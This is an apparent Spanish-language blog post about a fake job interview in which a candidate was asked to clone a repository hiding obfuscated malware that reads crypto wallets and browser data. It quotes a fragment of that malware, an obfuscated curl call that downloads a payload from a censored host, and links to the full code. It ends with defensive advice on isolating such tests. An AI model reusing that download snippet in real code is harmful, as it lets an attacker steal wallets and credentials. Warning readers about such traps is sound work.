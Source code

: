```yaml
---
aliases:
- /es/como-una-entrevista-laboral-se-convierte-en-un-robo-de-criptomonedas/
authors:
- Eduardo Zepeda
categories:
- opinion
coverImage: images/tech-interview-hacking-obfuscated-code.jpg
date: '2024-12-14T22:24:18-06:00'
description: Esta es la historia de un tipo que estuvo a punto de perder todo su criptomonedas
  y probablemente ser hackeado en una entrevista de trabajo para un puesto remoto
keyword: ''
keywords:
- crypto
- interview
- github
- hacking
- docker
slug: /opinion/como-una-entrevista-laboral-se-convierte-en-un-robo-de-criptomonedas/
title: Como Una Entrevista Laboral Se Convierte En Un Robo De Criptomonedas
---
```


El otro día estaba navegando en esa máquina de propaganda política de Elon Musk, también conocida como X, y me topé con esta joya de la desvergüenza humana, un entrevistador que estuvo a punto de hackear a uno de sus postulantes.

## Ejecución de malware en las entrevistas laborales

La historia es esta: estás necesitado de trabajo, te preparas para la entrevista, y de repente el reclutador te pide clonar [una librería de Github]({{< ref path="/posts/git/el-problema-de-usar-github-para-evaluar-a-desarrolladores/index.md" lang="es" >}}) para que encuentres los errores en el código, una entrevista protocolaria para desarrollo de software, todo normal hasta este punto. Por supuesto que tú, necesitado de un buen laburo, decides seguir con el proceso.

Bueno, pues este chico fue lo suficientemente avispado como para leer el código a ejecutar antes de ejecutar ciegamente su voluminosa librería de *node_modules*. ¿Y con que se encontró? un suculento y delicioso código minimizado, ofuscado y con tintes de poner tu ordenador a minar criptomonedas. 

Nuestro amigo era como Jorge, curioso, así que embelleció el código y encontró:

- Lineas que parecen buscar y leer el contenido de carteras de Solana.
- Scripts que escanean directorios de navegadores.  
- [Llamadas a una API]({{< ref path="/posts/software-architecture/caracteristicas-basicas-de-una-api-rest/index.md" lang="es" >}}) directo a una dirección IP, sin dominio, algunos sin respuesta y otros que descargan scripts ofuscados en Python (supongo que le da un seguimiento al proceso de hackeo instalando un backdoor o algún RAT).


Si quieres ~~infectarte~~ leer el código visita [el repositorio de github](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), no me hago responsable de nada.

``` javascript
_0x42b722("curl -Lo \"" + _0x157519 + "\" \"" + "http://<censored>/pdown" + "\"", (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

{{<ad>}}

## ¿Cómo evitamos caer en estas trampas?

No planeo quedarme solo en el drama. Esto se trata de ofrecer algunas soluciones prácticas para que los script kiddies no te vean la cara de novato en una falsa entrevista de trabajo:

### **Usa un dispositivo diferente**

La opción más cómoda, pero también la más cara, mantén tus dispositivos separados, usa un ordenador para trabajo y pruebas técnicas y otro para tus asuntos personales, criptomonedas incluidas. 

### **Lee el código, siempre que sea posible**

¿El reclutador te manda un script? Examínalo con cuidado antes de ejecutarlo. Sí, ya sé, a veces el código es demasiado extenso o está ofuscado, pero si tienes algo de experiencia, puedes pasar tus ojos rápidamente por la pantalla y detectar las red flags. Claro, tampoco puedes perder toda la tarde con esto si estás en una entrevista real o valoras tu tiempo.

### **Usa una máquina virtual**

Monta una máquina virtual, ya sea Virtual Box o Gnome Boxes, en Linux, o un [contenedor de Docker completamente aislado](/es/docker/tutorial-de-comandos-basicos-de-docker/), si no te molesta no contar con una interfaz gráfica. 

Otra opción disponible, y mi favorita: una live USB con la distribución de tu elección (Debian, Fedora, o lo que quieras).

De esa manera, lo peor que puede pasar es que infecten tu máquina virtual y no tu equipo real con toda tu información personal. ¡Solo ten cuidado los volúmenes compartidos! Si montas tu disco duro en la VM, estás frito.

### **Cifra tu información sensible**

Aquí entra el clásico consejo de los veteranos de la vieja escuela de TI: **cifra tus datos importantes**. Si alguien logra acceder a tus colección de memes de gatitos, cífralos. 

No planeo ofrecer detalles porque ya hay demasiado en internet, Googlea sobre GPG o lee el manual directamente, si no estás tan familiarizado con la terminal o no te interesa, hay herramientas como Kleopatra, que vuelven más intuitivo el uso de la criptogorafía.

## No ejecutes código arbitrario en tu máquina personal

¿Tienes mejores ideas para protegernos de estas prácticas? Suelta tus consejos en redes sociales y etiquétame. Estoy ansioso de agregar tus sugerencias al post. 

Si quieres leer la historia completa dale una visita al blog de Elon... digo X. Editado: el propietario de la cuenta ha cambiado su configuración de privacidad, así que ahora no puedes ver la conversación completa.